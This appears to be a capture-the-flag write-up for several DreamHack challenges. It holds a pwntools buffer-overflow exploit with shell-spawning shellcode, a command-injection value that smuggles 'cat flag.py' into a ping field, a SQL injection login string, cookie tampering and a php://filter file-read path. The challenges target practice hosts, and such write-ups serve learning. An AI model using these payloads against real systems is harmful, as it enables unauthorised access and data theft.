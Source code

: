 # DreamHack CTF

## basic_exploit_000
- Solve Code
    ```python
    from pwn import *

    context.log_level = "error"

    shellcode = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"

    p = remote("host1.dreamhack.games",8363)

    text = p.recv(1024).decode()

    buf_addr = p32(int((text.split("=")[1].strip())[1:11],16))

    payload = shellcode+ b'a'*106 + buf_addr
        
    print(payload)
    p.sendline(payload)
    p.interactive()
    p.close()
        
    ```
## Command-Injection-1
- How to Connecting 
    ```text
    HOST : host1.dreamhack.games
    Port : 8247/tcp
    ```
- Solve
    ```text
    - Remove the tag on page source
    - input Command : 8.8.8.8" | cat flag.py #
    ```

## COOKIE
- Solve
    ```text
    id : guest
    pw : guest
    change the cookie value is 'admin'
    ```

## php-1
- Solve
    ```text
    1. using the burp suite
    2. Detected attack point link
    3. use php filter & burp suite repeater
    4. command is
    php:filter/convert.base64-encode/resource=/var/www/www/uploads/flag
    ```

## Simple SQLi
- Solve
    ```text
    userid : admin" -- password : admin "--
    ```

## Web-misconf-1
- Solve
    ```text
    The hint is in File
    1. cat defaults.ini |grep password
    2. password is admin
    3. admin id is admin
    4. login on grafada
    5. find Flag !
    ```